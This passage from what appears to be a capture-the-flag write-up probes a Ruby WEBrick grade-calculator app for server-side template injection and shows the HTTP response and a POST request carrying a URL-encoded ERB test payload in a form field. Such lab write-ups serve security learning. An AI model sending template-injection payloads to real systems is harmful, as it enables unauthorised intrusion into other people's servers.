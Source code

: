 ### Server Side Template Injection

Seeing this my first instinct was that there might be some injection attack or server side template injection. When looking deeper into the responses the server returned we could see that **WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)** server was being used, this gives me an indication that we might be dealing with server side template injection using Ruby.

```
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 05 Mar 2024 18:31:44 GMT
Content-Type: text/html;charset=utf-8
Connection: close
X-Xss-Protection: 1; mode=block
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Server: WEBrick/1.7.0 (Ruby/3.0.2/2021-07-07)
Content-Length: 5299

<html lang="en">
<head>
<title>Weighted Grade Calculator</title>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1">
<link rel="stylesheet" href="/css/w3.css">
<link rel="stylesheet" href="/css/lato.css">
<link rel="stylesheet" href="/css/montserrat.css">
<link rel="stylesheet" href="/css/font-awesome.min.css">
<style>

<snipped>
```

So to test for server side template injection i injected the **<%=\{\{7*7\}\}%>** into the first category. This would make the the browser send the following request. Noteworthy is that the browser automatically url encodes all the special characters in here. This gives me an indication that whatever i put in here will need to be url encoded.
```
POST /weighted-grade-calc HTTP/1.1
Host: 10.129.38.85
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 205
Origin: http://10.129.38.85
Connection: close
Referer: http://10.129.38.85/weighted-grade-calc
Upgrade-Insecure-Requests: 1

category1=%3C%25%3D%7B%7B7*7%7D%7D%25%3E&grade1=11&weight1=20&category2=test1&grade2=1&weight2=20&category3=test2&grade3=2&weight3=20&category4=test3&grade4=3&weight4=20&category5=test4&grade5=8&weight5=20
```
